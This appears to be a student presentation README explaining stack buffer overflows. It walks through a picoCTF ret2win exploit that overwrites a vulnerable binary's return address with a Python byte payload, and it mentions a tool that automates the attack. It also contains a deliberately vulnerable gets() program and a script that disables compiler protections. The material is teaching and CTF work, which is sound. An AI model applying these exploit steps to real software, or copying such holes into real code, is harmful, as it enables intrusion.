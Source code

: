 # Presentation

## Introduction
For our presentation we will be discussing buffer overflow attacks. Since there are many different types of buffer overflow attacks, we will be focusing on a very specific type of attack that involves the stack and function addresses.

## How Data is Stored in C
Before we discuss how buffer overflow attacks work, we will need to briefly go over how memory works. Here is a diagram that provides a general overview:

<img class="img-fluid" src="https://media.geeksforgeeks.org/wp-content/uploads/memoryLayoutC.jpg" alt="img-verification" height=280 width=342>

*Note how the stack grows from high memory addresses to low memory addresses.*

Since we are focusing on stack based attacks, we will need to familiarize ourselves with the call stack. A stack in general is a datastructure that follows the FILO paradigm. A call stack is very similar. Everytime you call a function a `stack-frame` is pushed onto the stack and at the end of a function call the stack-frame is popped out. Here is a helpful diagram:

![Stack Frame](https://upload.wikimedia.org/wikipedia/commons/thumb/d/d3/Call_stack_layout.svg/342px-Call_stack_layout.svg.png)

*Note how every stack-frame has a return address. This address points back to the previous stack-frame*

## Overriding the Call Stack
Most buffer overflow attack are based on overriding the return address. The return address lets the call stack know what instruction to execute next. If an attacker is able to modify its value, they can effectively control the execution of a program.

Lets say you have this C program:	
```c
#include <stdlib.h>
int main(int argc, char** argv){
	char buf[20];
	gets(buf);
}
```

When you compile and run this program, one of the first things that will happen is that 20 bytes of memory will be allocated to `buf`. Then the function call to `gets` (never use this function btw) will prompt the user for input. If the user specifies an input that is 20 bytes or less, the program will exit normally. However, if the user is malicious and inputs more than 20 bytes, then the extra input will override other areas of the call stack. Here is a visualization:

<img src="https://www.securitysift.com/wp-content/uploads/2013/12/strcpy_bof_diagram.png" height=320 width=400>

User inputs with sizes greater than what the buffer can hold will leek onto other parts of memory which include the function paramers, other local variables and the return address.

## How Can We Exploit This?

In the example above the return address was overwritten by a bunch of As. If we overwrite it with something less nonsensical we will be able to do things that we normally shouldn't be able to. Let's try to do this for this [vulnerable program](demo/vuln) (taken from this [picoCTF](https://play.picoctf.org/practice?page=1&search=buffer%20overflow%201) challenge).

First lets run it normally:
```
$ demo/vuln 
Please enter your string:
hello
Okay, time to return... Fingers Crossed... Jumping to 0x804932f
```

This specific program lets us know what its return address is ahead of time. Let's try to modify it by overrunning the buffer. To make this easier for us we can use `python` to generate a string and then pipe it like this:
```
$ python3 -c "print('A'*100)" | demo/vuln
Please enter your string:
Okay, time to return... Fingers Crossed... Jumping to 0x41414141
Segmentation fault
```

Segmentation fault means that somewhere in your program's execution it did something it wasn't allowed to do. In this case your program is trying to return to the overwritten address `0x41414141`.

Let's try to change the return address to something more interesting. After playing around with the command a bit more, we can see that at an `offset` of 42 is where the return address starts to get overwritten. Now all we need is a value to override it with. To see what other functions are in the file, run this command:
```
readelf -s demo/vuln | grep FUNC
```

One interesting functions is `win` which has an address of `080491f6`. To override it, run this command:
```
python3 -c "import sys; sys.stdout.buffer.write(b'A'*44 + b'\xf6\x91\x04\x08')" | demo/vuln
Please enter your string:
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
Please create 'flag.txt' in this directory with your own debugging flag.
```
*Note how we inputted the return address backwards. This is because most CPUs are little endian. Also we used sys.stdout.buffer.write because we were outputting bytes.*

By changing the return address we can run different functions by replacing the original return address with the address of those functions. This can be used for accessing other functions in a file or for accessing functions from programs in other parts a computer storage. 

## Demo of our Tool
Finding the offset and overriding the buffer by hand can be annoying. Luckily, we have created a tool that automates the whole process!

First lets use ```./tool --list demo/vuln``` to find all the functions in the program. 

Next lets use ```./tool --offset demo/vuln``` to find the offset for the program. We will need this value too for our next step.

Now that we have both of these values we can run ```./tool --override demo/vuln 080491f6 44``` to complete our buffer overflow attack.

## Other Notes
Running an attack on a 64 bit program is a similar process with a bit more added steps, but for the sake of simplicity (and time) we made our tool specific to 32 bit ones.

Additionaly modern OS's and compiliers are wary of buffer overflow attacks and have taken proper precautions such a stack-smashing detectors, dynamic memory and the inablity to execute commands directly on the stack. While buffer overflow attacks are still possible, these precautions make them extremely more difficult to implement. For this reason, we have to compile our programs to purposefully exclude these precautions. We created a [script](compile-vulnerable.sh) that automates this.
